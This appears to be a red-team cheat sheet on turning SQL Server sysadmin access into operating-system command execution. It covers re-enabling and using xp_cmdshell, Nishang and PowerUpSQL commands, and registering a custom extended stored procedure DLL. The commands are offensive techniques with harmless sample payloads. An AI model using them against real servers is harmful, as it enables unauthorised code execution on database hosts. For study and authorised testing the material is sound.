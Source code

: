 # xp_cmdshell

* Disabled by default since SQL Server 2005
* Executed with the privileges of SQL Server service account
* Synchronous
* `sysadmin` privileges are required

If uninstalled:
```
sp_addextendedproc 'xp_cmdshell','xplog70.dll'
```

If disabled:
```
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1
RECONFIGURE
```

Exploitation:
```
EXEC master..xp_cmdshell 'whoami'
```

Nishang:
```
Execute-Command-MSSQL -ComputerName instance -UserName sa -Password pw
```

PowerUpSQL:
```
Invoke-SQLOSCmd -Username sa -Password pw -Instance instance -Command whoami
```

# Custom Extended Stored Procedures

* DLL which acts as an extension to SQL server
* `sysadmin` privileges are required to register
* Executes with the privileges of the service account
* DLL can have any file extension
* Can also be loaded from UNC path or Webdav

Sample DLL Code:
> https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp
> https://stackoverflow.com/questions/12749210/how-to-create-a-simple-dll-for-a-custom-sql-server-extended-stored-procedure

If `xp_calc.dll` has a function called `xp_calc`:

```
sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
EXEC xp_calc
sp_dropextendedproc 'xp_calc'
```
